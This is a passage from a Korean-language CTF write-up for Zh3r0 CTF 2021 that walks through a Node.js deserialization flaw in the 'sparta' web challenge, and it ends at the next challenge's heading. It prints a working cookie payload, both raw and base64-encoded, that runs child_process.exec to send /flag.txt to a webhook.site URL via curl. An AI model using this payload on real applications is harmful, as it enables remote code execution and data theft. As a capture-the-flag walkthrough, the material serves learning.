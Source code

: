 	이렇게 unserialize 함수를 이용하여 역직렬화 시키는 과정에서 원하는 코드를 실행시킬 수 있습니다.

	이제 서버에 취약점을 발생시키기 위해서는 원하는대로 동작하는 페이로드를 base64 시킨 다음 Cookie를 저장하면 되는데

	해당 문제의 경우 명령어의 결과가 웹 페이지가 아닌 Console에 남기 때문에 결과를 얻기 위해 curl을 이용하였습니다.

	```bash
	{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('curl https://webhook.site/41d15f1d-def1-481f-b8d0-e0439ac68a34?c=$(cat /flag.txt)', function(error, stdout, stderr) { console.log(stdout); });	return 'a';}()", "country":"hello", "city":"helloworld"}
	=> eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCBodHRwczovL3dlYmhvb2suc2l0ZS80MWQxNWYxZC1kZWYxLTQ4MWYtYjhkMC1lMDQzOWFjNjhhMzQ/	Yz0kKGNhdCAvZmxhZy50eHQpJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCk7IH0pO3JldHVybiAnYSc7fSgpIiwgImNvdW50cnkiOiJoZWxsbyIsICJjaXR5IjoiaGVsbG93b3JsZCJ9
	```

	![Untitled%207.png](\post-images\Zh3r0CTF\WEB\2021\sparta\Untitled%207.png)

	해당 CTF는 플래그 형식이 `zh3r0{FLAG}` 이니 문자만 잘 맞춰주면 됩니다.

`Flag is zh3r0{4ll_y0u_h4d_t0_d0_w4s_m0v3_th3_0bjc3ts_3mper0r}`

# # Baby SSRF

> [http://web.zh3r0.cf:1111/](http://web.zh3r0.cf:1111/)

> Hint : for i in range(5000,10000) XD

---
